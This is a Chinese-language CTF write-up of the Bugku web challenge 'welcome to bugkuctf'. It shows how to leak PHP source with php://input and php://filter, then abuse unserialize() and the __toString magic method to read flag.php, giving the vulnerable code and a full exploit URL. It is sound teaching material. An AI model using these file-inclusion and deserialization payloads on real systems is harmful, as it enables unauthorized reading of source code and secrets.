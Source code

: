 ```yaml
---
title: 【Bugku CTF】 Web —— welcome to bugkuctf
copyright: true
date: 2018-01-03 22:40:23
tags: [bugku,CTF,writeup,web,audit,php]
categories: [InfoSec,Web]
---
```


# 0x00 前言

此题运用了许多 PHP 技巧，解题思路惊艳，特此想分享一下思考过程。与其说此题是 Web 题，不如说是道 PHP 技巧题，难度中等，要求有**扎实的 PHP 基础**。

涉及到的技巧有 **PHP 伪协议、魔术方法、对象的序列化与反序列化**等，相关链接如下：

- 题目链接：[http://123.206.31.85/challenges#welcome to bugkuctf](http://123.206.31.85/challenges#welcome%20to%20bugkuctf)
- 解题链接：[http://120.24.86.145:8006/test1/](http://120.24.86.145:8006/test1/)

<!-- more -->

![question](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Bugku_CTF_Web_welcome_to_bugkuctf/question.png)

# 0x01 PHP 伪协议获取源码

点开链接，依然按常规套路只有一句话：**you are not the number of bugku !**，继续查看源码发现线索：

![hint](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Bugku_CTF_Web_welcome_to_bugkuctf/hint.png)

这里需要满足两点：

1. 构造合适的 URL 查询变量 `txt` 使得 PHP 变量 `$user` 满足 if 语句的条件
2. 令变量 `$file` 通过文件包含函数 `include()` 获取指定页面的源码

注意，此处还未涉及到查询变量 `password`。

## php://input

在 if 语句中，通过 `file_get_contents()` 函数读取变量 `$user` 的值后，再与字符串 `welcome to the bugkuctf` 比较。

因此可借助伪协议 [php://](http://php.net/manual/zh/wrappers.php.php) 中的 `php://input` 访问原始请求数据中的只读流。这里令 `$user = "php://input"`，并在请求主体中提交字符串 `welcome to the bugkuctf`。

## php://filter

在 `include($file); //hint.php` 语句中，相当于把变量 `$file` 的值在该语句的位置读入，结合后面的提示，应该是要把 hint.php 页面的源码以某种形式包含在当前页面内。

因此可利用 `php://filter` 以某种方式筛选过滤特定的数据流。这里令 `$file = php://filter/read=convert.base64-encode/resource=hint.php`，意思是**以 Base64 编码的方式过滤出 hint.php 页面的源码**，也可以把它理解为一个具有 URI 形式的特殊函数，该函数能把 hint.php 源码以 Base64 编码的方式读入。

根据以上两种 PHP 伪协议的分析，构造出以下 payload 即得 hint.php 源码的 Base64 编码:

![get_source](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Bugku_CTF_Web_welcome_to_bugkuctf/get_source.png)

解码后得到 hint.php 源码：

``` php
<?php  
  
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
			echo "<br>";
		return ("good");
        }  
    }  
}  
?>  
```

根据注释发现了藏 flag 的页面，再次照葫芦画瓢去偷看 flag.php 源码：

![flag_fail](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Bugku_CTF_Web_welcome_to_bugkuctf/flag_fail.png)

...果然没那么简单，唔，卡住了，怎么办？

别忘了还有主页面啊！**利用主页面的功能也能读取自身的源码**，这一点很容易被遗忘，所以这次很顺利就获得了 index.php 的源码（注意，路径末尾不带 php 文件的 URL `http://120.24.86.145:8006/test1/`，一般默认就是访问 `http://120.24.86.145:8006/test1/index.php`）：

``` php
<?php  
$txt = $_GET["txt"];  
$file = $_GET["file"];  
$password = $_GET["password"];  
  
if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  
    echo "hello friend!<br>";  
    if(preg_match("/flag/",$file)){ 
		echo "不能现在就给你flag哦";
        exit();  
    }else{  
        include($file);   
        $password = unserialize($password);  
        echo $password;  
    }  
}else{  
    echo "you are not the number of bugku ! ";  
}  
  
?>  
  
<!--  
$user = $_GET["txt"];  
$file = $_GET["file"];  
$pass = $_GET["password"];  
  
if(isset($user)&&(file_get_contents($user,'r')==="welcome to the bugkuctf")){  
    echo "hello admin!<br>";  
    include($file); //hint.php  
}else{  
    echo "you are not admin ! ";  
}  
 -->  
```

注意到第 8 行将 `$file` 变量中的 `flag` 字符串过滤了，印证了前面的结果。到此，我们顺利地将此题变成一道 PHP 白盒审计题了，现在才是此题最有意思的地方，如何利用已知的 hint.php 与 index.php 的源码去获取 flag.php 的内容？请继续往下看。

# 0x02 序列化构造 payload

要理清 hint.php 与 index.php 之间的关系，首先要理解 hint.php 中的 `__tostring()` 函数是何方神圣。

## 魔术方法 __toString()

「写在前面」：PHP 中变量与方法的命名一般遵循**小驼峰式命名法（Lower Camel Case）**，类的命名一般遵循**大驼峰式命名法（Upper Camel Case）**，也称**帕斯卡命名法（Pascal Case）**，并且**普通变量、超级全局变量、常量、数组索引等区分大小写**，而**函数名、方法名、类名、魔术变量等不区分大小写**，但最好使用与定义一样的大小写名字。详情可参考：

> [驼峰式大小写](https://zh.wikipedia.org/wiki/%E9%A7%9D%E5%B3%B0%E5%BC%8F%E5%A4%A7%E5%B0%8F%E5%AF%AB)
> [PHP命名大小写敏感规则](https://www.cnblogs.com/daipianpian/p/5721377.html)

因此看到此魔术方法定义为 `__toString()`，在源码中却是 `__tostring()` 就不足为奇了。

**魔术方法 [__toString()](http://php.net/manual/zh/language.oop5.magic.php#object.tostring)** 定义在类中，在该类的对象被当成字符串打印时执行，并且必须返回一个字符串，否则出现报错。

因此在 hint.php 中，当 `Flag` 类的对象被打印时，将获取 `$file` 变量（注意此处的 `$file` 与 index.php 中的不同）中文件的内容并输出，最后返回字符串 `good`。

## 对象的序列化

再来看看 index.php 的 11-15 行，满足了上面所有 if 语句的条件后，先包含变量 `$file`，再反序列化变量 `$password` 后输出。此段代码是本题的核心，理解了就能找到 index.php 与 hint.php 之间的联系，从而构造出 payload。

**核心思想如下：先用 `include()` 函数包含 hint.php，从而引入 `Flag` 类；再将该类对象的序列化字符串赋值给 `$passsword`，且令对象的成员变量 `$file = flag.php`， 所以在反序列化后得到上述对象；最后用 `echo` 打印该对象，从而触发 `__toString()` 函数，输出 flag.php 的值。**

通过以下代码可获得成员变量 `$file = flag.php` 的 `Flag` 对象的序列化字符串：`O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} `

``` php
<?php 
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("good");
        }  
    }  
}  
$f = new Flag();
$f->file = 'flag.php';
echo serialize($f);
?> 
```

根据以上所有的分析，可以将 payload 总结如下：

**`http://120.24.86.145:8006/test1/?txt=php://input&file=hint.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}`**

最后别忘了在请求主体中提交字符串 `welcome to the bugkuctf` 喔，提交后得到 flag：

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/Bugku_CTF_Web_welcome_to_bugkuctf/flag.png)

若有不足或错误之处劳烦指出，欢迎有疑问的朋友前来留言讨论。